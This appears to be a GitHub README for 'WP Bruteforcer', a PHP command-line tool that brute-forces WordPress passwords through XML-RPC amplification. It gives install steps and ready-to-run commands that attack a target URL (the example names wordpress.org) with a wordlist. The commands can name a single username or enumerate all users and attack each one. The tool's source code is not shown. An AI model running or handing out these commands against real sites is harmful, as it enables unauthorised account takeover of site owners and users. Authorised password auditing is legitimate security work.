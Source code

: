 # WP Bruteforcer

A simply PHP CLI Tool / Lib to bruteforce WordPress XMLRPC using amplification.

More info: [here](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)

# Requirements

* PHP 5.3+
* Composer

```php
composer install
```

# Usage

```php
php wpbruteforcer.php bruteforce http://wordpress.org/ wordlist.txt --username admin
```

If none username is provided, the tool will enumerate the WordPress users and attack all of them.
```php
php wpbruteforcer.php bruteforce http://wordpress.org/ wordlist.txt
```

To get a list of options use:
```php
php wpbruteforcer.php bruteforce -h
```
